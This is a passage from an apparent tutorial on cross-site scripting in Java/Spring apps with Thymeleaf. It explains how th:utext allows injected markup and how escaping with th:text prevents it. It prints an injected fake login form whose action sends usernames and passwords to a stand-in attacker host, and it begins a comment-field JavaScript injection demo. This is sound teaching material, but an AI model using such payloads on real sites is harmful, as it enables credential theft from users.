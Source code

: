 Mature frameworks such as Spring usually have security features that, when used correctly, should protect your apps against the most common types of attacks. That’s probably one of the best business cases for using third-party tools like frameworks and libraries: the security goodies they often offer by default.
Example #2: Using a Fake Form to Steal User Credentials

The use cases for XSS are virtually infinite. They’re only bound by the attacker’s ingenuity and your app’s vulnerability. Let’s explore yet another scenario, showing how an attacker can create a fake form to steal user credentials by using XSS.
The Code

For this example, we’ll use the same code samples for the previous one, with one change. We’ll change back the th:text Thymeleaf attribute to th:utext so we can get away with providing HTML tags as inputs.
The Attack

For this attack, the attacker wants to inject and display HTML code for a simple form:
HTML

<h3>LOGIN</h3> 
<form action=http://some-evil-address.com> 
<label for="username">Username:
</label> 
<input type="text" name="username" id="username" /> 
<label for="password">Password:</label> 
<input type="password" name="password" id="password"> 
<input type="submit" value="OK">

Notice that the form’s action attribute points to a URL controlled by the attacker. The idea here is to lure the unsuspecting victim into submitting their credentials using this form. In order to do that, the attacker could simply pass the HTML for the form as a query parameter to the vulnerable site and share that URL with the victim, in what’s called a phishing attack:
java-xss-img-5 image

This is, of course, a toy example. A real attack would probably make use of styling to make the fake form look as realistic as possible, with the intent of luring more people into the trap.
How to Prevent It

As in the previous example, preventing this attack consists of escaping content so tags aren’t displayed. In the case of Thymeleaf templating language, that means using the safe th:text attribute.
Example #3: XSS Through Forms

For our third and final example, we won’t use a code sample. Instead, we’ll use a demo site that is deliberately insecure against XSS, to allow people to practice. Here’s what the site looks like:
java-xss-img-6 image
The Attack

To perform the attack, we’ll exploit the comment functionality of the site, which is not protected. Let’s start by clicking on Agenda. Then, I’ll click on any of the talks listed. I’ll see a form that allows me to input a comment:
java-xss-img-7 image

I’ll enter my name normally. However, my comment will be a JavaScript snippet that displays a message:
java-xss-img-8 image
